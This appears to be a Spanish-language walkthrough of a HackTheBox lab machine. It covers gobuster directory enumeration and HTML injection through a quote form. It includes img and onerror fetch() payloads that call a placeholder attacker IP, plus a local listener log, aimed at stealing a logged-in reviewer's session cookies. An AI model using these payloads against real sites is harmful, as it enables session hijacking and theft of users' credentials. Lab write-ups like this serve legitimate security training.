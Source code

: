 ```bash
gobuster dir -u http://capiclean.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40
```

Resultado: varios endpoint descubiertos, como interesante el `dashboard` que dejaremos para más adelante por tener código `302` (necesitamos acceso autorizado), y `quote`. Este último lo capturaremos con [Burp Suite](../../../Herramientas/Burp%20Suite/BurpSuite.md) para su análisis.

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 5267]
/login                (Status: 200) [Size: 2106]
/services             (Status: 200) [Size: 8592]
/team                 (Status: 200) [Size: 8109]
/quote                (Status: 200) [Size: 2237]
/logout               (Status: 302) [Size: 189] [--> /]
/dashboard            (Status: 302) [Size: 189] [--> /]
```

Acción visitamos el endpoint `quote`. Parece ser algún tipo de servicio para concertar citas.

![Captura](./Imágenes/web_1.png)

Resultado: al enviar una solicitud se nos contesta con que recibiremos una respuesta, esto puede llevarnos a pensar que hay alguien que revisará/recibirá lo que enviemos desde aquí.

![Captura](./Imágenes/web_2.png)

Acción: hacemos una traza tratando de confirmar si hay comunicación entre esta entrada y nuestro servidor controlado con `python3 -m http.server 80`.

```js
<img src="http://<IP_Atacante>/<prueba>"/>
```

![Captura](./Imágenes/burp_1.png)

Resultado: confirmamos comunicación, con esta inyección html hemos logrado que el servidor solicite un recurso que carga desde un servidor controlado.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [10/Oct/2025 20:32:43] code 404, message File not found
10.10.11.12 - - [10/Oct/2025 20:32:43] "GET /prueba HTTP/1.1" 404 -
```

Acción: ahora trazamos la acción que corrobore que existe un usuario que recibe dicho mensaje y por lo tanto al estar logueado puede que tras una configuración insegura de `HttpOnly false` nos muestre sus cookies de sesión, permitiendo un secuestro de sesión.

![Captura](./Imágenes/burp_2.png)

```js
<img src="http://<IP_Atacante>/<prueba>" onerror=fetch("http://<IP_Atacante>/<test>") />
```
